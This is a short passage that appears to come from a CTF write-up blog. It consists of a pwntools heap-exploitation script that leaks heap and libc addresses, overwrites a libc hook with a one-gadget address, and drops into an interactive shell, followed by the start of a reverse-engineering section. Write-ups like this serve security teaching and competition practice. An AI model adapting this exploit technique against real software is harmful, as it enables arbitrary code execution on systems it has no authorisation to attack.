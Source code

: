 ```python
realloc(0xd8)
malloc('u')
realloc(0xe8)
malloc('u')
realloc(0xf8)
malloc('u')
# realloc(0x100)
realloc(0x50)
realloc(0x100)
malloc('u')
realloc(0x50)
realloc(0x100)
realloc(0x8)

read_addr(39+4)
ru('I think ')
heap_leak = int(ru(' is useful.'),16)
heap_base = heap_leak - 0x10
lg('heap_leak',heap_leak)
lg('heap_base',heap_base)
free(heap_base+0x3a0)
# realloc(0x50)

read_addr(32)
ru('I think ')
libc_leak = int(ru(' is useful.'),16)
libc_base = libc_leak - 0x1ebbe0
lg('libc_leak',libc_leak)
lg('libc_base',libc_base)
#libc = ELF('./libc.so.6')
libc = elf.libc
libc.address = libc_base
system_addr = libc.sym.system
bin_sh = libc.search('/bin/sh').next()
magic = libc.sym.setcontext + 61

free(heap_base+0x2a0)

malloc(p64(libc_base+0x1ed608))
write(libc_base+0xe6c7e)

p.interactive()
```

![image-20220709130708455](https://blog-1310088624.cos.ap-nanjing.myqcloud.com/blog/image-20220709130708455.png)

0x02 RE
=======

2.1 loader
----------
